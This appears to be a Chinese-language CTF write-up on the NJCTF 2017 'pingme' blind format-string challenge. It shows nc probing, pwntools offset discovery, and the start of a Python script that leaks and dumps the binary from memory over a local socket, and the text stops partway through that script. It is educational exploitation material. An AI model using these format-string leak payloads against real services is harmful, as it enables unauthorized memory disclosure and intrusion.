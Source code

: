 
- [题目复现](#题目复现)
- [Blind fmt 原理及题目解析](#blind-fmt-原理及题目解析)
- [Exploit](#exploit)
- [参考资料](#参考资料)


[下载文件](../src/writeup/6.1.2_pwn_njctf2017_pingme)

## 题目复现
在 6.1.1 中我们看到了 blind ROP，这一节中则将看到 blind fmt。它们的共同点是都没有二进制文件，只提供 ip 和端口。

checksec 如下：
```
$ checksec -f pingme
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATHFORTIFY Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No        0               2       pingme
```
关闭 ASLR，然后把程序运行起来：
```
$ socat tcp4-listen:10001,reuseaddr,fork exec:./pingme &
```


## Blind fmt 原理及题目解析
格式化字符串漏洞我们已经在 3.3.1 中详细讲过了，blind fmt 要求我们在没有二进制文件和 libc.so 的情况下进行漏洞利用，好在程序没有开启任何保护，利用很直接。

通常有两种方法可以解决这种问题，一种是利用信息泄露把程序从内存中 dump 下来，另一种是使用 pwntools 的 DynELF 模块（关于该模块的使用我们在章节 4.4 中有讲过）。

#### 确认漏洞
首先你当然不知道这是一个栈溢出还是格式化字符串，栈溢出的话输入一段长字符串，但程序是否崩溃，格式化字符串的话就输入格式字符，看输出。
```
$ nc 127.0.0.1 10001
Ping me
ABCD%7$x
ABCD44434241
```
很明显是格式字符串，而且 ABCD 在第 7 个参数的位置，实际上当然不会这么巧，所以需要使用一个脚本去枚举。这里使用 pwntools 的 fmtstr 模块了：
```python
def exec_fmt(payload):
    p.sendline(payload)
    info = p.recv()
    return info
auto = FmtStr(exec_fmt)
offset = auto.offset
```
```
[*] Found format string offset: 7
```

#### dump file
接下来我们就利用该漏洞把二进制文件从内存中 dump 下来：
```python
def dump_memory(start_addr, end_addr):
    result = ""
    while start_addr < end_addr:
        p = remote('127.0.0.1', '10001')
        p.recvline()
        #print result.encode('hex')
        payload = "%9$s.AAA" + p32(start_addr)
        p.sendline(payload)
        data = p.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s" % (start_addr, data.encode('hex')))
```